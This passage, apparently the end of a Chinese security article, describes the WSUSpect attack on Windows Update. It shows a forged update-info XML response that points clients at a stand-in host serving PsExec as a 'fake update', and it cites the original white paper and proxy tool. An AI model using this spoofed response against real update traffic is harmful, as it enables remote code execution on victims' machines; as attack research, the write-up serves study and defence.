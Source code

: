     <ID>17999991</ID>
      <Xml>
     <!-- This should be XML encoded inside the Xml tag -->
    <ExtendedProperties DefaultPropertiesLanguage="en" MsrcSeverity="Important"
     IsBeta="false">
     <SupportUrl>http://support.microsoft.com</SupportUrl>
      <SecurityBulletinID>MS15-041</SecurityBulletinID>
     <KBArticleID>3037581</KBArticleID>
      </ExtendedProperties>
     </Xml>
     </Update>
     <Update>
    <ID>17999990</ID>
      <Xml>
     <!-- This should be XML encoded inside the Xml tag -->
     <LocalizedProperties>
    <Language>en</Language>
     <Title>anything-in-here</Title>
      </LocalizedProperties>
     </Update>
    </Xml>
      <Update>
    <ID>17999991</ID>
      <Xml>
     <!-- This should be XML encoded inside the Xml tag -->
     <LocalizedProperties>
    <Language>en</Language>
     <Title>A fake update</Title>
     <Description>Will do bad things</Description>
     <UninstallNotes>...</UninstallNotes>
     <MoreInfoUrl>http://support.microsoft.com/kb/3037581</MoreInfoUrl>
      <SupportUrl>http://support.microsoft.com</SupportUrl>
       </LocalizedProperties>
     </Xml>
     </Update>
     </Updates>
     <FileLocations>
     <FileLocation>
    <FileDigest>HO4/qEGb30y8JmRhJ34/3ZuT3iU=</FileDigest>
     <Url>**http://fake-updates/ClientWebService/psexec/BgInfo.exe**</Url>
      </FileLocation>
     </FileLocations>
    </GetExtendedUpdateInfoResult></GetExtendedUpdateInfoResponse>
    

一旦client机收到这个响应，就会根据更新类型自动或提醒用户安装。比如在上例中，就能启动一个带参运行的Psexec。

# 0x05 Source

* * *

  * <http://www.contextis.com/documents/161/CTX_WSUSpect_White_Paper.pdf>
  * pocket: <https://github.com/ctxis/wsuspect-proxy>

